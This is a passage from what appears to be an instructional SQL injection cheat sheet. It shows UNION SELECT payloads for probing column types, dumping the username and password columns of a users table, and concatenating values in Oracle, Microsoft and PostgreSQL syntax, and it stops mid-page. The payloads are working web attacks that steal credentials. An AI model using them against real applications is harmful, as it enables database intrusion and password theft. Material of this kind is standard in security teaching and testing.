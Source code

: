 If the application does give you verbose errors, it might tell you what type it should be. If this is not the case, just brute-force the types:

```sql
UNION SELECT 'a',NULL,NULL,NULL--
UNION SELECT 1,NULL,NULL,NULL--
```

> Keep in mind that you only need to find a usefull column (large string-based types more likely). You can dump everething through that column. But in some cases you will want to find integer or float columns. The thing is that if you find a `TEXT` column, you don't neet to keep looking for other `TEXT`, `CHAR` or `VARCHAR` columns.


### Retrieving  interesting data

Here comes the cool part. Suppose that:

- The original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the `WHERE` clause.
- The database contains a table called `users` with the columns `username` and `password`.

In this situation, you can retrieve the contents of the `users` table by submitting the following payload:

```sql
UNION SELECT {{ col-a username }}, {{ col-b password }} FROM {{ table users }}--
```

### Retrieving multiple values within a single column

Imagine that the query returns only a single column, or that there is only one suitable column.
An neat trick is to **just concatenate the column values into a single one**.
This can be done in different ways depending on the DBMS in use:

<smart-tabs variable="dbms" :tabs="{'oracle': 'Oracle', 'microsoft': 'Microsoft', 'pgsql': 'PostgreSQL', 'mysql': 'MySQL'}">
<template v-slot:oracle>

```sql
UNION SELECT {{ col-a username }} || '{{ separator ~ }}' || {{ col-b password }} FROM {{ table users }}--
```

</template>
<template v-slot:microsoft>

```sql
UNION SELECT {{ col-a username }} + '{{ separator ~ }}' + {{ col-b password }} FROM {{ table users }}--
```

</template>
<template v-slot:pgsql>

```sql
UNION SELECT {{ col-a username }} || '{{ separator ~ }}' || {{ col-b password }} FROM {{ table users }}--
```
